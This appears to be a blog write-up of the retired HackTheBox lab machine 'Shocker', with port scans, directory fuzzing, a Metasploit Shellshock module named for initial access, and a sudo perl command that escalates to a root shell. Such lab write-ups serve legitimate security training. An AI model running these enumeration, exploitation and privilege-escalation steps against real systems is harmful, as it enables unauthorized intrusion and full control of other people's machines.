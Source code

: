 ```yaml
---
layout: post
title: "Writeup: HackTheBox Shocker - with Metasploit"
description: "Rooting Shocker using Metasploit."
tags: pentest hackthebox writeup
---
```


This series will follow my exercises in [HackTheBox][].
All published writeups are for retired HTB machines.
Whether or not I use Metasploit to pwn the server will be indicated in the title.
 
# Shocker

_<small>Difficulty: Easy</small>_

_<small>Machine IP: 10.10.10.56</small>_

A port scan identifies a web server on the target as well as SSH on a non-standard port.

```bash
sudo nmap -sS -T4 -p- 10.10.10.56

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-07 10:15 EDT
Nmap scan report for 10.10.10.56
Host is up (0.015s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 11.95 seconds
```

```bash
sudo nmap -sS -T4 -A -p 80,2222 10.10.10.56
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-07 10:17 EDT
Nmap scan report for 10.10.10.56
Host is up (0.014s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 3.18 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).                                                        
Network Distance: 2 hops                                                                                         
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                                                          
                                                                                                                 
TRACEROUTE (using port 80/tcp)                                                                                   
HOP RTT      ADDRESS                                                                                             
1   13.10 ms 10.10.14.1                                                                                          
2   13.45 ms 10.10.10.56
```

Given the name of this box is Shocker, I am assuming this will require [Shellshock][].
Shellshock requires an executable script to exist in the `/cgi-bin` directory of a web server.
Any script will suffice.

[gobuster][] identifies a `/cgi-bin` directory.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 30 -u http://10.10.10.56/
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56/
[+] Threads:        30
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/07 10:22:08 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/server-status (Status: 403)
===============================================================
2020/06/07 10:22:19 Finished                                                                                      
===============================================================
```

And [wfuzz][] uncovers a `user.sh` file under `/cgi-bin`.

```bash
wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc 404 http://10.10.10.56/cgi-bin/FUZZ.sh

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.56/cgi-bin/FUZZ.sh
Total requests: 949

===================================================================
ID           Response   Lines    Word     Chars       Payload                                          
===================================================================

000000864:   200        7 L      18 W     119 Ch      "user"                                           

Total time: 1.623817
Processed Requests: 949
Filtered Requests: 948
Requests/sec.: 584.4252
```

I am ready to exploit Shellshock.
Now that I know what script to use under `/cgi-bin`, I can run a Shellshock auxiliary check from Metasploit:

![msf shellshock check][]

The scanner indicates that the server is vulnerable.
I can exploit this with the `exploit/multi/http/apache_mod_cgi_bash_env_exec` module in Metasploit.

![msf shellshock exploit][]

I get a shell as the `shelly` user.
From here I can get the user flag.

It appears that `shelly` can execute `perl` with root permissions!
I should be able to simply call `/bin/bash` through perl and obtain a root shell.

```bash
shelly@Shocker:~$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Don't forget to obtain a TTY shell, though!
If you see this error, run the following steps:

```bash
shelly@Shocker:~$ sudo perl —e 'exec "/bin/sh";'
sudo e 'exec "/bin/sh";'perl 
sudo: no tty present and no askpass program specified
shelly@Shocker:~$
```

Run:

```bash
/bin/bash -i
export TERM=xterm-256color
SHELL=/bin/bash script -q /dev/null
# ctrl+z to background channel
# background meterpreter session
stty raw -echo
reset
reset
# go back to meterpreter session and channel
reset
```

You should now have a TTY shell.
Now, I can execute bash through perl and obtain a root shell.

```bash
shelly@Shocker:~$ sudo /usr/bin/perl -e 'exec "/bin/bash";'
sudo /usr/bin/perl -e 'exec "/bin/bash";'
root@Shocker:~# cd /root
cd /root
root@Shocker:/root# whoami
whoami
root
```

[gobuster]: https://github.com/OJ/gobuster
[hackthebox]: https://www.hackthebox.eu
[shellshock]: https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/
[wfuzz]: https://tools.kali.org/web-applications/wfuzz

[msf shellshock check]: /assets/img/htb/shocker/shellshock-auxiliary-check.png
[msf shellshock exploit]: /assets/img/htb/shocker/shellshock-meterpreter.png
